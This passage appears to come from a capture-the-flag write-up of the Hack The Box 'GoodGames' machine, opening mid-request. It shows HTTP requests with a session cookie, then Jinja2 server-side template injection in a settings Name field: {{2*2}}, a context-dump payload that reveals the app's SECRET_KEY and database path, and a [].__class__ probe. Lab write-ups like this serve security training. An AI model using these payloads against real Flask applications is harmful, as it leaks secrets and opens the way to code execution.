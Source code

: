 ```
Upgrade-Insecure-Requests: 1
Priority: u=0, i

name=BBB
```

From `http://internal-administration.goodgames.htb/transactions?`

```
GET /transactions? HTTP/1.1
Host: internal-administration.goodgames.htb
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://internal-administration.goodgames.htb/transactions?
Cookie: session=.eJwljk1qQzEMhO_idRbWj205l3lIlkRLoIX3klXI3WvobuYbhpl3OfKM66vcn-crbuX49nIvk6iyLJrZRYdRDYc6UUwcgqXRwjWSBgSRSa2NOpKtljrEXZZ32BprBFp16snSc7Sq1nd5M5ywoxRnBUkjaDiZQQhS2bPsI68rzv83sO26zjyev4_42UAn0lIV25vDh6aY6sJ05JGtARmzCmP5_AGBuD8y.Zy4IlA.OH2OCiJCAnlEfrDhsl4CDUlL_bU
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```

After multiple tries, no sql injection is detected. But trying to perform some STTI, we find out that the settings tab contains a injectable field -> Name:

If you insert the following payload `{{2*2}}` and you find out that the name outputted is `4`. After so, you can go and inspect the interesting wordlist for stti #template-injection-wordlist and find out that for JINJA2 running on python there is an interesting variable `self._TemplateReference__context
`
```
#### <Context {'dict': <class 'dict'>, 'get_flashed_messages': <function get_flashed_messages at 0x7fb8c72fcae8>, 'session': <SecureCookieSession {'_fresh': False, '_id': '933048c39f68a7b30ed10928b8d1e4853c2c7f371e33b80053623bc5fa78dd8cd615fa20ee2b0d36f486f750ab68532b0291e2bf8d4a18fb31529441831fa4df', '_user_id': '1', 'csrf_token': 'a923caa8b3bc7d7af8baac2fd247f5513b44a842'}>, 'url_for': <function url_for at 0x7fb8c72fc8c8>, 'config': <Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': 'S3cr3t_K#Key', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'session', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': None, 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:////backend/project/apps/db.sqlite3', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>, 'range': <class 'range'>, 'cycler': <class 'jinja2.utils.Cycler'>, 'joiner': <class 'jinja2.utils.Joiner'>, 'request': <Request 'http://localhost:8085/settings' [POST]>, 'g': <flask.g of 'apps'>, 'lipsum': <function generate_lorem_ipsum at 0x7fb8c7731488>, 'namespace': <class 'jinja2.utils.Namespace'>, 'segment': 'settings', 'current_user': admin} of None>
```
In there you can find some interesting value:
```
'SECRET_KEY': 'S3cr3t_K#Key'
'SQLALCHEMY_DATABASE_URI': 'sqlite:////backend/project/apps/db.sqlite3'
```
Since we know it's running Jinja2 we directly go to [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
```
Trying-> [].__class__
Output-> <class 'list'>
```